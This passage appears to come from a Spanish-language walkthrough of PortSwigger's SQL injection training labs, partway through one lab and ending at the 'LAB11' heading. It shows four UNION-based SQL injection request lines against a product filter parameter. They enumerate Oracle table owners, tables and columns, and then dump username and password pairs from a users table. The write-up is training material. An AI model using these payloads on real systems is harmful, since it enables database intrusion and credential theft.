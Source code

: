 ```null
GET /filter?category=Gifts'+union+select+NULL,owner+from+all_tables--+- HTTP/2
```

```null
GET /filter?category=Gifts'+union+select+NULL,table_name+from+all_tables+where+owner='PETER'--+- HTTP/2
```

Enumero las columnas para los usuarios

```null
GET /filter?category=Gifts'+union+select+NULL,column_name+from+all_tab_columns+where+table_name='USERS_KQEEJZ'--+- HTTP/2
```

Dumpeo las credenciales

```null
GET /filter?category=Gifts'+union+select+NULL,USERNAME_BIOVYO||':'||PASSWORD_DLXEUE+from+USERS_KQEEJZ--+- HTTP/2
```

Me loggeo y termino el laboratorio

<img src="/img/articulos/sqli-portswigger/41.png" alt="">

# LAB11

* **Instrucciones**

<img src="/img/articulos/sqli-portswigger/42.png" alt="">
